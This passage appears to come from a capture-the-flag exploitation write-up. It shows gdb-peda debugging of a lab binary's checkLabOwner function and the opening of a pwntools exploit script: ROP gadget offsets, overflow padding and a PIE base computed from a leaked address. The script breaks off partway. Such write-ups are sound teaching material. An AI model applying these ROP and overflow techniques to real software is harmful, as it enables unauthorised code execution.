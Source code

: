 ```
   0x565e929d <checkLabOwner+129>:      jne    0x565e92ce <checkLabOwner+178>
   0x565e929f <checkLabOwner+131>:      lea    eax,[ebx+0x3c]
Guessed arguments:
arg[0]: 0x565ec040 ("QHpix")
arg[1]: 0x565ea02b ("QHpix")
arg[2]: 0x5
```
Yep, it is correct!. Let's check the other comparison instruction in the function:
```
gdb-peda$ b *checkLabOwner+137
Breakpoint 1 at 0x5664f2a5
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
EAX: 0x5665203c --> 0x0
EBX: 0x56652000 --> 0x3ef8
ECX: 0x78 ('x')
EDX: 0x56652040 ("QHpix")
ESI: 0xf7ed9000 --> 0x1d9d6c
EDI: 0x56652044 --> 0x78 ('x')
EBP: 0xffe78420 --> 0x78 ('x')
ESP: 0xffe783e8 ("jaaakaaalaaamaa")
EIP: 0x5664f2a5 (<checkLabOwner+137>:   mov    eax,DWORD PTR [eax])
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x5664f29b <checkLabOwner+127>:      test   eax,eax
   0x5664f29d <checkLabOwner+129>:      jne    0x5664f2ce <checkLabOwner+178>
   0x5664f29f <checkLabOwner+131>:      lea    eax,[ebx+0x3c]
=> 0x5664f2a5 <checkLabOwner+137>:      mov    eax,DWORD PTR [eax]
   0x5664f2a7 <checkLabOwner+139>:      cmp    eax,0x1337
[===snip===]
gdb-peda$ x/x 0x5665203c
0x5665203c <userid>:    0x00
gdb-peda$ 
```
It looks like `userid` is compared to `0x1337`.
Let's change our exploit script to also write to `userid` and then call `checkLabOwner` again:
```python
from pwn import *

checkLabOwner_offset = 0x121c
main_offset = 0x12d4
pop_offset = 0x1402 # pop edi; pop ebp; ret;
mov_offset = 0x1216 #mov dword ptr [edi],ebp; ret;
labOwner_offset = 0x4040
lab_offset = 0x1338
userid_offset = 0x403c
padding = cyclic(76)

# start the process
p = process('./lab')

# get the address of main and calculate the bass
p.recvuntil('Main is at ')
main = int(p.recv(10),16) #0xdeadbeef
log.info('Main is at: {}'.format(hex(main)))
base = main - main_offset
log.success('PIE base: {}'.format(hex(base)))

# calculate all addresses we need
# functions
checkLabOwner = p32(base + checkLabOwner_offset)
lab = p32(base + lab_offset)
# gadgets
```